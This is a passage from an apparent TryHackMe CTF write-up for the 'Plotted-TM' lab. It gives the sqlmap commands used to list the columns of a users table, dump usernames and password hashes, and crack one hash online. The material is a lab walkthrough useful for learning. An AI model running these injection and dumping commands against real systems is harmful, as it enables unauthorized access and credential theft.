 Now I ran the scan to find the columns present in `users` table and found 10 columns.

Command Used : 

```bash
sqlmap -r req.req -p id -D tms_db -T users --columns --threads 10
```

These are the columns found. 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Plotted-TM/Images/Untitled%2017.png)

Now out of these columns `username`, `password` and `id` seems to be interesting, so let’s dump them.

Command used : 

```bash
sqlmap -r req.req -p id -D tms_db -T users -C username,password,id --dump --threads 10
```

After this I found 2 hashes one of which is of admin’s password, let’s crack it. 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Plotted-TM/Images/Untitled%2018.png)

At first [crackstation.net](http://crackstation.net) couln’t crack the `admin's` hash but was able to crack the hash of `puser`

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Plotted-TM/Images/Untitled%2019.png)
